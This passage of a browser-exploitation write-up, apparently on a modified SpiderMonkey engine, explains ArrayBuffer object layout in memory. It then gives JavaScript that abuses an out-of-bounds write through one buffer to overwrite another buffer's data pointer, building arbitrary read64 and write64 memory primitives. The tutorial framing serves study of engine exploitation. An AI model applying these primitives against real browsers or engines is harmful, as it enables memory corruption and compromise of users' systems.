 `shape`: Points to names of properties and corresponding indices into the slots array.

`slots`: Points to an array of values for properties. Here: `emptyObjectSlotsHeaders`.

`elementsHeader`: Here `emptyElementsHeader`.

`elementsData`: Points to the data (our array contents).

`byteLength`: The byteLength we can set via the vulnerable setter.

`typedArrayObj`: This is a tagged pointer that is pointing to the BigUint64Array Metadata.

`offset`: Contains `0xfff8800000000000` which is the value zero, type tagged as an integer.

More detailed information can be found in this post: [https://vigneshsrao.github.io/posts/play-with-spidermonkey/](https://vigneshsrao.github.io/posts/play-with-spidermonkey/). The most important value, for now, is the data pointer (here: `0x0000058dcd46a0c8`) which points to the actual data being stored in the ArrayBuffer. Since we set the length of ArrayBuffer “A” to 1000, we can read or write any of the following 125 (1000/8) values. If we were to overwrite the data pointer of ArrrayBuffer “B” to a location where we want to read or write, we could then simply index into “B” to read or write anywhere on the system.

Let’s test this assumption and create some helper functions `read64` and `write64`. These functions both use the out-of-bounds write we achieved via “A” to set the data pointer of “B” to a location of our choice. We then either read or set the value by indexing into “B” as TypedArray.

```
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)
aBuf[0] = 0x4141414141414141n
 
// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBufTyped = new BigUint64Array(bBuf)
bBufTyped[0] = 0x4242424242424242n
bBufTyped[1] = 0x4343434343434343n
 
 
function read64(addr){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // return first element (exactly where the changed data pointer points to)
    return typedB[0]
}
 
function write64(addr, value){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // set first element (exactly where the changed data pointer points to)
    typedB[0] = value
}
```

